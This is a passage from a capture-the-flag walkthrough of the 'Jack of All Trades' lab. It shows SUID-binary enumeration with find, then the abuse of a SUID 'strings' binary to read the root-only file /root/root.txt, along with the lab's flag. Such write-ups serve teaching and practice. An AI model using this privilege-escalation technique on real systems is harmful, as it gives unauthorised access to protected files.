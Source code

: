 I logged in and check if jack has sudo privileges, but unfortunately not. Next, I viewed his home and instead of a flag found out `user.jpg`

```
jack@jack-of-all-trades:~$ ls -al
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
```

I run python server `python -m SimpleHTTPServer 8000` and download that file to my machine, as probably there is some stuff hidden inside.

Apparently, it does not need to be extracted as flag is not hidden.

<br />

#### 9. Getting root

I've already checked of jack has sudo but no. Second step will be checking suid files:

`file / -perm -u=s -type f 2>/dev/null`

which gave me a list:

```
jack@jack-of-all-trades:/home$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```

The odd one is `/usr/bin/strings` which normally doesn't have any special permissions as it is a very useful command to view characters from a file (frequently used in stegnographhy challenges)

In this case, I read the flag

```
jack@jack-of-all-trades:/home$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
jack@jack-of-all-trades:/home$ 
```

Bingo. This wone was really interesting: RCE, lot's of stegnography, hydra, suid. Congratulations to an author :)
